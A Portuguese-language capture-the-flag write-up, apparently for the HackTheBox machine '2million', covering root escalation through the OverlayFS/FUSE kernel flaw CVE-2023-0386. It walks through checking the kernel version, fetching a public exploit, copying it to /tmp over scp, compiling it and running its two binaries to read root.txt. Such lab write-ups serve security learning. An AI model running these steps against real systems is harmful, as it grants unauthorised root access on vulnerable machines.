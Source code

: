 temos a seguinte informação (já traduzindo para pt)

```txt
"Eu sei que você está trabalhando o mais rápido que pode na migração do banco de dados. Enquanto estamos parcialmente inativos, você também pode atualizar o sistema operacional no nosso servidor web? Já ocorreram algumas vulnerabilidades críticas no kernel do Linux este ano. A vulnerabilidade na OverlayFS / FUSE parece preocupante. Não podemos correr o risco de sermos afetados por isso."
```

Então sabemos que existe uma vulnerabilidade no Kernel do Linux, que é a OverlayFS. Então próximo passo é descobir se a versão é vulnerável, então use o comando:

```shell
uname -r
```

como resultado temos `5.15.70-051570-generic`. Pesquisando no google sobre a vulnerabilidade OverlayFS, temos um exploit no [github](https://github.com/sxlmnwb/CVE-2023-0386?source=post_page-----3aee8b2f99cd--------------------------------), iremos fazer o download dele na máquina e depois via scp iremos enviar para o admin do sistema no diretório `tmp`

```shell
scp CVE-2023-0386-master.zip admin@2million.htb:/tmp/
```

agora voltando no terminal que está o ssh aberto, iremos na pasta `tmp` e usar o unzip:

```shell
 unzip CVE-2023-0386-master.zip  
```

Segundo a documentação desse exploit é necessário ter um segundo terminal aberto, então crie um novo terminal e uma nova conexão via ssh. Em ambos os caso entre no diretório do exploit que foi extraído no diretório `/tmp`.

No terminal 1, use os seguintes comandos:

```shell
make all
```

para fazer a instalação. E depois:

```shell
./fuse ./ovlcap/lower ./gc
```

já no segundo terminal use o comando:

```shell
./exp
```

dessa forma irá acontecer o escalonamento de privilégio. Por fim, basta ir no diretório root.

```shell
cd /root
```

use o comando `ls` para listar os arquivos. E o comando `cat root.txt` para ler o que está dentro do arquivo root.txt. Que por fim, será nossa última flag.
